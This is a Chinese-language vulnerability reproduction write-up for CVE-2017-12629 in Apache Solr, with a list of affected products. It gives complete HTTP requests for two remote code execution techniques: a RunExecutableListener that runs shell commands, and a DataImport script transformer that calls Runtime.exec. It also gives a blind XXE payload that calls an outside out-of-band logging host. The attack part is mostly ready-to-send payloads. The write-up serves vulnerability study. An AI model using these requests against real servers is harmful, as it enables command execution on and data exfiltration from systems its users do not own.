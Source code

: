 （CVE-2017-12629）Apache Solr rce&xxe 漏洞
==========================================

一、漏洞简介
------------

二、漏洞影响
------------

Redhat Single Sign-On 7.0+ Redhat Linux 6.2 E sparc+ Redhat Linux 6.2 E i386+ Redhat Linux 6.2 E alpha+ Redhat Linux 6.2 sparc+ Redhat Linux 6.2 i386+ Redhat Linux 6.2 alphaRedhat JBoss Portal Platform 6Redhat JBoss EAP 7 0Redhat Jboss EAP 6Redhat JBoss Data Grid 7.0.0Redhat Enterprise Linux 6+ Trustix Secure Enterprise Linux 2.0+ Trustix Secure Linux 2.2+ Trustix Secure Linux 2.1+ Trustix Secure Linux 2.0Redhat Collections for Red Hat Enterprise Linux 0Apache Solr 6.6.1Apache Solr 6.6Apache Solr 6.5.1Apache Solr 6.5Apache Solr 6.4Apache Solr 6.3Apache Solr 6.2Apache Solr 6.6Apache Solr 6.3Apache Solr 6.0Apache Lucene 0

三、复现过程
------------

### rce 姿势一

-   首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```{=html}
<!-- -->
```
    POST /solr/demo/config HTTP/1.1
    Host: 10.0.83.79:8983
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
    Accept: */*
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    Content-Length: 158

    {"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}

![](./resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId25.png)

在solr管理界面新建了listen

![](./resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId26.png)

-   然后进行update操作，触发刚才添加的listener：

```{=html}
<!-- -->
```
    POST /solr/demo/update HTTP/1.1
    Host: 10.0.83.79:8983
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 15

    [{"id":"test"}]

![](./resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId27.png)

### rce 姿势二

![](./resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId29.png)

如上图所示，首先打开刚刚创建好的`test`核心，选择Dataimport功能并选择debug模式，填入以下POC：

    <dataConfig>
      <dataSource type="URLDataSource"/>
      <script><![CDATA[
              function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
              }
      ]]></script>
      <document>
        <entity name="stackoverflow"
                url="https://stackoverflow.com/feeds/tag/solr"
                processor="XPathEntityProcessor"
                forEach="/feed"
                transformer="script:poc" />
      </document>
    </dataConfig>

点击`Execute with this Confuguration`会发送以下请求包：

payload(这里我直接填无法命令执行替换如下payload)

    POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
    Host: 10.0.83.79:8983
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: application/json, text/plain, */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-type: application/x-www-form-urlencoded
    X-Requested-With: XMLHttpRequest
    Content-Length: 679
    Connection: close
    Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr

    command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport

![](./resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId30.png)

### xxe

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind
XXE漏洞，我们发送如下数据包（自行修改其中的XXE Payload）：

    GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C%21DOCTYPE%20root%20%5B%0A%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A//xxe.rqe94e.ceye.io/%22%3E%0A%25remote%3B%5D%3E%0A%3Croot/%3E&wt=xml&defType=xmlparser HTTP/1.1
    Host: your-ip:8983
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

使用`ceye`

发送payload

![](./resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId32.png)

ceye接收

![](./resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId33.png)

参考链接
--------

> https://wh0ale.github.io/2019/08/26/Apache-Solr安全问题/
